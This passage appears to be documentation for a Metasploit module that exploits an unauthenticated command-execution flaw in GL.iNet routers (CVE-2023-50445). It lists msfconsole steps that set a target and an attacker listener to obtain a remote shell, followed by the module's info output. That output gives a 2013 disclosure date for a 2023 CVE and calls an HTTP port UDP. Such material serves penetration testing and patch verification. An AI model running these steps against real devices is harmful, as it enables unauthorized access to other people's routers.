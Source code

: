 ## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/glinet_unauth_rce_cve_2023_50445`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

You should get a `shell` or `Meterpreter`.

```shell
msf exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > info

       Name: GL.iNet Unauthenticated Remote Command Execution via the logread module.
     Module: exploit/linux/http/glinet_unauth_rce_cve_2023_50445
   Platform: Unix, Linux
       Arch: cmd, mipsle, mipsbe, armle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2013-12-10

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Unknown
  DZONERZY

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT    80               yes       The target port (UDP)
  SID                       no        Session ID
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)
  VHOST                     no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

```
